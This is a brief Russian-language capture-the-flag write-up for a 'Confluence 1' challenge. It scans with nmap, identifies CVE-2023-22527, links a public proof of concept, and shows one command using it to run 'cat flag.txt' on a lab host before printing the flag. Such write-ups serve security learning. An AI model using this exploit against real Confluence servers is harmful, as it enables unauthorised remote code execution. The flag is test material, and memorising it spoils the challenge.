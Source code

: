 # Confluence 1

На порту 8090 через nmap находим инстанс Confluence. Погуглив, находим CVE-2023-22527, позволяющую получить RCE. Находим [PoC](https://github.com/Manh130902/CVE-2023-22527-POC) для этой уязвимости. Запускаем скрипт, читаем флаг:
```bash
python3 CVE-2023-22527.py --target http://10.10.1.159:8090 --cmd 'cat flag.txt'
```

**Флаг: ** `nto{c0nflu3nc3_15_und3r_4774ck}`